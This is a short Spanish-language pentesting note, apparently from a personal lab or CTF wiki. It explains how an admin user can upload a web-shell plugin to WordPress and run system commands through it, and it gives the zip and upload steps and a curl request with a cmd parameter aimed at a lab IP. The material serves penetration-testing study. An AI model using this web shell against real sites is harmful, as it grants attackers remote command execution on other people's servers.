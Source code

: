 
## DESCRIPTION

En determinadas versiones de Wordpress, por ejemplo la 5.8.3, es posible subir un plugin que contenga una web shell.
Necesitamos ser usuario admin o tener permisos de admin ( mirar [[XSS AND ADMIN ACCESS IN WORDPRESS]] ).

#### Mas información

* https://ppn.snovvcrash.rocks/pentest/web/wordpress

## EXPLOITATION

1. Copiamos el plugin:

```
cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
zip plugin-shell.zip plugin-shell.php
```

2. Lo subimos `plugin-shell.zip` (Plugins > Add New) and install it (Upload Plugin > Browse... > Install Now) **but do not activate**! Now you can access the web shell:

3. Accedemos

```
$ curl 'http://10.10.13.37/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami'
```

Ruta: http://192.168.180.55/shenzi/wp-content/uploads/

IMPORTANTE AUNQUE DE ERROR COMPROBAR LA RUTA QUE SUELE GUARDARSE

## MACHINES

* Hack The Box: 

